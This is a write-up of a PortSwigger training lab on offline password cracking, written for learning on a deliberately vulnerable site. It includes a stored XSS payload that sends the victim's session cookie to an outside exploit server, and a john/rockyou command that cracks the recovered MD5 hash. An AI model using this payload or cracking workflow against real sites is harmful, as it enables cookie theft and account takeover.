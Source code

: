 # Offline password cracking

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking), you'll learn: Offline password cracking! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's `stay-logged-in` cookie and use it to crack his password. Then, log in as `carlos` and delete his account from the "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`

## Exploitation

**Login page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222041553.png)

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222041609.png)

**Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222042132.png)

As you can see, we have a new cookie called `stay-logged-in`.

**In the previous lab, we found that this cookie is encoded in base64, and the format is `<username>:<MD5_password_hash>`:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# echo "d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw" | base64 -d 
wiener:51dc30ddc473d43a6011e9ebba6ca770
```

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222041632.png)

**Let's look at one of those posts:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222041746.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222041756.png)

In the bottom of the post, users can leave a comment.

**Let's try to trigger a XSS payload:**
```html
</textarea><script>alert(document.domain)</script>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222041936.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222041951.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222042027.png)

**Can confirm the `Comment` field is vulnerable to stored XSS.**

**Armed with above information, we can steal users' cookies via the `exploit server`!**
```html
</textarea><script>document.location="https://exploit-0a5a00bf04bcabbec18d021e016f00be.exploit-server.net/exploit?" + document.cookie</script>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222042504.png)

**Exploit server access log:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222042639.png)

`stay-logged-in` cookie value: `Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz`

**Nice! Let's base64 decode that:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# echo "Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz" | base64 -d
carlos:26323c16d5f4dabff3bb136f2460a943
```

**Now, we can use `john` the crack the MD5 hashed password:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# echo -n "carlos:26323c16d5f4dabff3bb136f2460a943" > carlos.hash

┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 carlos.hash
[...]
onceuponatime    (carlos)     
[...]
```

- Found `carlos`'s password: `onceuponatime`

**Let's login as user `carlos`!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222042956.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222043003.png)

And delete it!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222043022.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-10/images/Pasted%20image%2020221222043029.png)

We did it!

# What we've learned:

1. Offline password cracking